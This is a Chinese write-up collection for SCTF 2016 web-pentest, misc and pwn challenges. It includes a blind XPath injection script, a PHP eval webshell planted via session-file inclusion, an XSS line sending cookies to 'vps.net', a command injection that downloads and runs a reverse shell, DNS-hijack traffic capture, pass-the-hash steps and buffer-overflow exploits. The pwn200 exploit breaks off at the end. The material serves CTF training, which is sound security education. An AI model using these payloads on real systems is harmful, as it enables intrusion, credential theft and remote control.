# Pt
## homework
这次主要是让大家去绕过imagecreatefromgif()
知识点http://www.secgeek.net/bookfresh-vulnerability/
修改脚本https://github.com/Rainism/Bypass-PHP-GD-Process-To-RCE
为了不与sycshell相似，我把phpinfo()禁了。由于出题人验证码写的有问题，导致了多种解法。
```php
	$im =imagecreatefromjpeg($target_path);
	srand(time());
	$newfilename = strval(rand()).".png";
	$newimagepath = $uploaddir.$newfilename;
	imagejpeg($im,$newimagepath);
	unlink($target_path);
```
也可在文件删除前，去包含。exp见[附件](./meida/pt/homework/exp.gif)。

## eto
当查询错误时，http头里会有一个提示//user[id=1],可以知道是xpath
测试的时候发现过滤了引号这些，并且xpath1.0好多字符函数都没法用，就只能用已存在的字符来猜解密码了
用string-length函数可以得到密码长度为32位，再整理下可用字符，可以写成脚本

```python
import requests

d = {'0':'0',
	 '1':'1',
	 '2':'2',
	 '3':'3',
	 '4':'4',
	 '5':'5',
	 '6':'6',
	 '7':'7',
	 '8':'8',
	 '9':'9',
	 'a':'substring(role,3,1)',
	 'b':'substring(//user[id=2]/role,3,1)',
	 'c':'substring(//user[id=2]/role,6,1)',
	 'd':'substring(role,4,1)',
	 'D':'substring(//user[id=3]/username,1,1)',
	 'e':'substring(role,5,1)',
	 'E':'substring(//user[id=2]/username,1,1)',
	 'g':'substring(email,10,1)',
	 'h':'substring(//user[id=5]/email,2,1)',
	 'i':'substring(username,7,1)',
	 'j':'substring(username,6,1)',
	 'l':'substring(role,1,1)',
	 'n':'substring(username,5,1)',
	 'm':'substring(name(email),2,1)',
	 'o':'substring(email,6,1)',
	 'p':'substring(//user[id=2]/role,1,1)',
	 'r':'substring(name(role),1,1)',
	 's':'substring(name(username),2,1)',
	 't':'substring(email,5,1)',
	 'T':'substring(//user[id=4]/username,9,1)',
	 'u':'substring(name(username),1,1)',
	 'v':'substring(//user[id=2]/username,2,1)',
	 'w':'substring(//user[id=4]/username,10,1)',
	 'W':'substring(username,3,1)',
	 'y':'substring(email,1,1)',
	 'Y':'substring(username,1,1)',
	 '@':'substring(email,3,1)',
	 '.':'substring(email,7,1)',
	 '_':'substring(//user[id=3]/username,8,1)'}

url = 'http://eto.sctf.xctf.org.cn/?action=user&id=1'
pwd = ''
for i in range(1,33):
	s = ' and substring(password,%d,1)=' % i
	for (k,v) in d.items():
		res = requests.get(url+s+v)
		if 'YeWenjie' in res.content:
			pwd = pwd + k
			print k
			break
```

## sycshell

tip：
```python
<!-- 内部系统资料：http://sycshell.sycsec.com:61180/ -->
http://58.213.63.27:61180/phpinfo.php
```

对于企业那种,可能会在源码中看到一些虚拟主机配置后,在内网里面是使用hosts,由于没对其进行限制,可导致外网访问其内容

即修改一下本地的hosts:
```
58.213.63.27 sycshell.sycsec.com
```


tip:
```
一个图片地址
./image/
另外就是一个jsfuck编码
```
[jsfuck下载](./media/pt/sycshell/jsfuck.txt)

直接运行时弹框：
/NO TIP/

他的函数运行规则是,所以重在这个函数体
```
[]['sort']['constructor']('函数体')();
```

```
解法一：
<script>
alert(/\n(.+)/.exec(eval(prompt().slice(0,-2)))[1]);
</script>

解法二：
将最后两个()换成.toString()输出

解法三：
将函数体复制出来，像解正常的jsfuck一样
```
jsfuck详解：
http://drops.wooyun.org/web/4410



http://sycshell.sycsec.com:61180/W0Ca1N1CaiBuDa0/read.php
**测试：php5.3.9 解题受版本影响**

```php
<?php
show_source(__FILE__);
$pass = @$_GET['pass'];
$a = "syclover";

strlen($pass) > 15 ? die("Don't Hack me!") : "";

if(!is_numeric($pass) || preg_match('/0(x)?|-|\+|\s|^(\.|\d).*$/i',$pass)){
    die('error');
}

if($pass == 1 &&  $a[$pass] === "s"){
    $file = isset($_GET['f']) ? $_GET['f'].'.php' : 'index.php';
    @include $file;
}
```

大概思路就是要绕过`is_numeric`，并且让`$pass == 1 && $a[$pass] === "s"`,也就是要为1的时候又要在另外一种情况为0

1、is_numeric绕过
is_numeric实现代码，is_numeric对输入的参数，先做了样式判断如果是整型、浮点型就直接返回true，如果是字符串则进入is_numeric_string函数进行判断，然后这个函数是这样判断的。

关键代码：
```c
END_API zend_uchar ZEND_FASTCALL _is_numeric_string_ex(......) /* {{{ */
{   
    ......
    /* Skip any whitespace
     * This is much faster than the isspace() function */
    while (*str == ' ' || *str == '\t' || *str == '\n' || *str == '\r' || *str == '\v' || *str == '\f') {
        str++;
        length--;
    }
    ptr = str;
    if (*ptr == '-') {
        neg = 1;
        ptr++;
    } else if (*ptr == '+') {
        ptr++;
    }
    if (ZEND_IS_DIGIT(*ptr)) {
        /* Skip any leading 0s */
        while (*ptr == '0') {
            ptr++;
        }
....
        for (type = IS_LONG; !(digits >= MAX_LENGTH_OF_LONG && (dval || allow_errors == 1)); digits++, ptr++) {
check_digits:
            if (ZEND_IS_DIGIT(*ptr)) {
                tmp_lval = tmp_lval * 10 + (*ptr) - '0';
                continue;
            } else if (*ptr == '.' && dp_or_e < 1) {
                goto process_double;
            } else if ((*ptr == 'e' || *ptr == 'E') && dp_or_e < 2) {
                const char *e = ptr + 1;
                if (*e == '-' || *e == '+') {
                    ptr = e++;
                }
                if (ZEND_IS_DIGIT(*e)) {
                    goto process_double;
                }
            }
            break;
        }
......
    }
}
```

空格、\t、\n、\r、\v、\f、+、-能够出现在参数开头，“点”能够在参数任何位置，E、e只能出现在参数中间。

所以主要来看看这个正则：
```
preg_match('/0(x)?|-|\+|\s|^(\.|\d).*$/i',$pass)
```
对0、0x、0X、-、+、空白字符(也就是\v\t那些)、以.或者以数字开头的，都会被拦截
这里可以直接用%0b绕过

更多参考：
http://zone.wooyun.org/content/24075
http://zone.wooyun.org/content/23961

2、`$pass == 1 && $a[$pass] === "s"`
感觉是不可能，因为要$pass=1又要=0
但是有个这样的小trick
```
$a="syclover"
$a['a']
如果是字符串,也就是a的时候,offset取值的时候会转化为整数，也就是0
```
https://github.com/80vul/phpcodz/blob/master/research/pch-009.md

***
所以综上可以有两种做法：
```
1、很多9的时候,php精度问题,最后会转化为1
%0b.99999999999999999999999999999999

2、这个就是利用e科学计数法来使得为1
%0b.1e1
```
然而`.`又是属于字符串，前面的%0b会忽略掉，所以$a['.1e1']就是$a[0]
最后我是限制了pass的长度,所以第一种解法是不行的

```php
    $file = isset($_GET['f']) ? $_GET['f'].'.php' : 'index.php';
    @include $file;
```
一个包含,可控名，但是后面有一个.php，最后我也是给出一个phpinfo地址，所以就很明确了。

通过phpinfo上传文件,得到临时文件,然后利用竞争去包含(我做了处理,1s删一次文件)

但是在phpinfo可以看到
```
auto_prepend_file	/home/wwwroot/waf.php
```
也就是任何php运行前都会加载这个

```
http://sycshell.sycsec.com:61180/W0Ca1N1CaiBuDa0/read.php?pass=%0b.1e1&f=php://filter/convert.base64-encode/resource%3D/home/wwwroot/waf
```

读取一下waf内容

```php
<?php
if(isset($_GET['f']) && preg_match("/zip|phar/",$_GET['f'],$array)){
	die("SycWaf: Don't Hack me!");
}
```
其中preg_match并没有进行i模式,也就是对大小写敏感，所以直接ZIP可绕过

所以最后也就是通过phpinfo上传一个zip临时文件,然后再通过zip协议包含(phar协议好像也行),生成一个shell

shell地址可以是/tmp或者一开始的./image下面，其他地方并没有权限


## hackme

这位同学的writeup写的不错，大家认真学习一下吧。
http://www.firesun.me/sctf2016-pentest-web-hackme-writeup/

## 蜜汁公司
email信息：2137162120@qq.com

linkedin: https://www.linkedin.com/in/%E5%92%AA%E5%92%AA-%E8%82%96-b93736119?trk=hp-identity-name

QQ网名:Bl4ck_Roll

姓名：肖咪咪

生日：0601

通过前期信息收集，然后尝试组合密码，进入印象笔记。密码为xiaomimi0601




得到一个服务器信息，然后尝试用私钥登录,可以发现登录之后没有执行权限。然后nmap扫描一下服务器信息




发现ssh-server版本为6.6，然后根据 CVE-2016-3115 读取服务器上面的信息




拿到一个地址<http://test.mizhicrop.sycsec.com>发现是蜜汁公司的测试站点，并且系统为metinfo5.3

然后下载metinfo5.3进行代码审计，挖掘到一枚SQLi后成功拿到管理员信息


解开密码之后，登录后台。发现存在一个admin的管理员用户，但是其hash破解不出来，然后尝试getshell。

按照<http://wooyun.org/bugs/wooyun-2010-0134479>的方法就可以getshell，拿到shell之后查看服务器日志，发现admin这个账号会每隔一段时间登录一次，然后尝试在登陆口劫持密码。


拿到密码为xiaomimidemimanicaibudao 然后到主站登录，成功拿到flag。


## drugmarket
这道题目是模拟一个贩卖毒品的组织，为了避免发生意外，将主站首页替换成了404页面，通过查看页面源码即可获得通往Drug Market的链接 [http://drug.spentest.com](http://drug.spentest.com)。
一般来说，涉及交易的网站都做的比较安全，这里也不例外，测试不出任何漏洞，但是在页面底部有描述到如果客户有任何对商店的建议和意见都可以到客户留言板系统 [http://msgboard.spentest.com](http://msgboard.spentest.com) 中留言，于是对msgboard.spentest.com站点进行安全测试，轻松挖掘到一枚本地文件包含漏洞

```
http://msgboard.spentest.com/index.php?action=../../../../etc/passwd
```

碰到本地文件包含一般有两种利用方法：PHP伪协议 和 写入恶意代码进行包含
这里伪协议是无法使用的，因为包含的字符串头部不可控，那就想办法写入恶意代码，无法上传，日志不可写，但是Session是可控的，通过文件包含查看Apache配置文件

```
http://msgboard.spentest.com/index.php?action=../../../../etc/httpd/conf/httpd.conf
```

得到msgboard站点的Session存储地址在 **/var/lib/php/session_msgboard**
在顾客登录页面以恶意代码**<?php @eval($_REQUEST['sctf'])?>**为用户名登录
查看当前的SessionID：**PHPSESSID=it6cvuvggdci27rr6ruihneol7**
包含Session文件GetShell

```
http://msgboard.spentest.com/index.php?action=../../../../var/lib/php/session_msgboard/sess_it6cvuvggdci27rr6ruihneol7&sctf=phpinfo();
```

拿到Shell之后并不能拿到Flag，因为根据题目描述得知要拿的是毒品售卖站点的权限，如何通过msgboard站渗透到drug站点呢？翻翻文件可以看到数据库的链接

```php
<?php

$host = '127.0.0.1';
$user = 'msgboard';
$pass = 'P4ssw0rd@msgboard';
$db = 'msgboard';

mysql_connect($host, $user, $pass) or die(mysql_error());
mysql_select_db($db) or die(mysql_error());
mysql_query("set names 'utf8'");
?>
```

按规律猜测drug站点的配置应该是

```
user: drug
password: P4ssw0rd@drug
db: drug
```

连接数据库成功，没有发现用户相关的信息，但是adminconfig表中却有title和welcome列，推测是后台将要显示的内容

于是更新一下adminconfig的信息，插入XSS语句

```
UPDATE `adminconfig` SET welcome='<script>window.location.href="http://vps.net/"+document.cookie;</script>' WHERE id=1;
```

成功拿到Cookie和后台地址

```
Cookie：token=5a7fb147029618e2535599d27133e153;
Admin Panel: http://drug.spentest.com/administrator/drug_admin_x.php
```

进入后台，发现有一个收集图片的功能


向里面提交了一个VPS的WEB地址，通过访问日志发现是源于wget的请求，推测这里会出现命令注入
经过一番测试，发现过滤了所有空白字符和'`', '(', ')'这些字符
我的绕过方式如下：

```bash
http://www.baidu.com/1.jpg;wget$IFS'http://vps.net/reverse.py'$IFS-O$IFS/tmp/reverse.py&&chmod$IFS'777'$IFS/tmp/reverse.py&&/tmp/reverse.py
```

成功反弹Shell，拿到Drug Market1的Flag


# DrugMarket2

通过DrugMarket1的Shell对服务器信息进行收集，发现提权是不可行的，内核太新，不过发现了一个有趣的文件**/var/www/webhosts/drug/include/smtp.php**

```php
<?php
    $smtpconfig = array(
        'server'   => 'pigeon-x.spentest.com',
        'username' => 'newton@spentest.com',
        'password' => 'I have 1 apple.'
    );
```

访问**pigeon-x.spentest.com**发现是一个邮件系统，利用 **newton@spentest.com / I have 1 apple.** 成功登录邮件系统，看到这样的邮件：

意味着这些Hash是从LoveHotel这台主机导出的，先看看有没有能解的，结果都不行，尝试利用Hash传递攻击进行测试。上传pth-toolkit到服务器，利用pth-winexe对LoveHotel进行测试，结果全提示权限不足，推测这里面没有内置管理员账户，尝试pth-smbclient对SMB共享信息进行收集，发现有些眉目
PS: pth-toolkit在服务器上运行会出现glibc版本不够新的情况，本地搭建好和服务器一样的环境，编译更新glibc，然后ldd找出需要的库打包一起放到服务器上就可以运行了。

看来这是Galieo这个账户的共享文件夹，于是利用Galieo账户的Hash结合pth-smbclient列举该文件夹内容

将所有文件都下载到本地分析

发现排除掉种子和图片而外，就只有WinSCP.zip有用了，打开WinSCP.ini进行分析，发现有保存密码

```
[Sessions\galieo@192.168.209.157]
HostName=192.168.209.157
UserName=galieo
Password=A35C715EF7793B3D303539336D656E726D6A64726E6C65726D696B0533292E083930192F3F6C2C39152F16292F281D0833257D
```

利用winscppwd解开密码，得到

```
galieo@192.168.209.157  YourTelEsc0peIsJustAToy!
```

尝试去连接192.168.209.157，发现根本不存在，于是拿着账户密码去登录了邮箱，发现了三封邮件

第一封：DNSZONE备份

第二封：网络拓扑备份

第三封：防火墙规则更新请求


下载网络拓扑备份，得到如下数据:

网络拓扑图一份


防火墙配置两份


现在可以肯定Galieo是网络管理员，那么利用Shell建立端口转发，登录他的远程桌面看看有没有值得利用的
登录进去后，先net user看看各个用户的介绍

```
Curie          Ghost Express Administrator
Galieo         Network Administrator
Hawking        Professional Penetration Tester
Heisenberg     The Big Boss
Newton         Web administrator
Schrodinger    Customer Service
```

这样就基本确定了用户的职位信息，Curie是配送管理员、Galieo是网络管理员、Hawking是职业渗透测试工程师、Heisenberg是大老板、Newton是WEB管理员、Schrodinger是客服，题目的目标是拿到配送名单，那Curie那里多半就有。
再翻翻别的信息寻找突破口，发现除了共享文件而外，在Chrome书签里面还找到了DNS管理系统，利用Galieo的账户登录系统，出现如下情况

ghost-express域名可以改指向，访问下[http://ghost-express.spentest.com](http://ghost-express.spentest.com)发现是存在的，这是一个配送系统的WEB登录。按理说Curie作为配送管理员，她一定会登录这个系统，拿到她的账户说不定就拿到配送名单了，如何能拿她的账户呢？结合前面的情况，最简单快捷的办法应该就是DNS劫持了。
于是在VPS做一个端口转发，将本机的80端口转发到47.88.52.44:80，并抓取本机的80经过流量

```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 47.88.52.44:80
iptables -t nat -A POSTROUTING --dst 47.88.52.44 -p tcp --dport 80 -j MASQUERADE
tcpdump tcp port 80 -n -X -s 0
```

将域名指向VPS，等几十秒后，成功抓取到账户和密码

```
Curie / Rad!umLetMeDie......
```

登录后台发现也没什么有用的信息，猜测名单应该在个人机上，于是RDP上去，发现也没有，只有几张私人照片，再上邮件看看，获取如下两封邮件

第一封邮件：

第二封邮件：


综上两封邮件，推测Curie已经把配送名单删了，但是Hawking黒了她的个人机，拿到了她的照片，说不定配送名单Hawking那里也有，从第一封邮件可以看到Hawking的私人邮箱是**marcosbuchananpu@gmail.com**，库里查询一下，拿到密码**k3ado0p4dv**
尝试利用该密码登录Hawking的邮箱，登录成功，看到如下两封邮件

看来推测是对的，Hawking把Curie的桌面给打包了，下载下来，成功找到配送名单，Get Flag!

#misc

##神秘代码

这个题 和上面的那些神秘代码没有关系 只是用来混淆人的
也和最后的那个循环的zip也没关系  那个zip是解不完的，可以发现解压出来的第二个和第三个都是一样的
关键是 使用stegdetect检测一下
stegdetect sctf.jpg
发现使用了jphide  win下可以使用工具http://linux01.gwdg.de/~alatham/stego.html  密码为空
就可以解出来了 得到flag是
SCTF{Hacking!}

##misc300(Nu1L)
首先分析pcap,最可疑的地方是qq.exe,而且紧接着有ssl流量,继续分析发现在百度盘下载了一个QQ.chm的文件,打开:

虽然没啥东西,但是为后面埋下了伏笔

二进制显示这个文件头是ITSF,也是个chm文件,打开

猜这个qq有问题

果然,这下pem知道了 放到wireshark里解密ssl流量

其中有个zip,打开得到一个记录文件

这个flag要修正下,按钮弹起后才输入,所以加个o 完整flag:sctf{wo_de_mi_ma_123xxoo}

#pwn

## pwn100
	ssp leak

x64的linux程序，明显的栈溢出，但是开启了`nx`,`canary` 。 利用`ssp leak`去泄露`flag`即可.
##### exp
```python
from zio import *
import sys

flag = 0x600DC0
target = ('58.213.63.30',60001)
#target = ('./pwn100-')
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "red")
io = zio(target,print_read=r_m,print_write=w_m)

buf = ""
buf +="A"*(500 + int(sys.argv[1]))
buf += l64(flag)

print "index ========> %d " % (500 + int(sys.argv[1]))
io.read_until('Can you tell me the flag?\n')
io.writeline(buf)
print io.read()

io.interact()
#for i in `seq 1 300`;do python new_exp.py $i;done
```

## pwn200
	整型溢出+格式化字符串


前面的那个游戏，第二种怪物的血量只有`1 byte`，玩家一直防御，就可以让它自己加血加到溢出死掉，然后到达格式化字符串漏洞的函数来。
这次做了限制，输入的缓冲区并不在栈里，利用栈帧结构修改`got`就可以拿shell了。 程序里给了个`system("/bin/sh")`调用，所以可以直接利用。

##### exp
```python

from zio import *

target = ('58.213.63.30',50021)
#target = './pwn200'
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "red")
io = zio(target,print_read=r_m,print_write=w_m)

get_shell_addr = 0x804a08b
atoi_got   = 0x0804B16C
#---- intger overflow ----#
io.read_until('name:\n')
io.writeline('muhe')

io.read_until('Exit\n')
io.writeline('2')

#---- win ----#
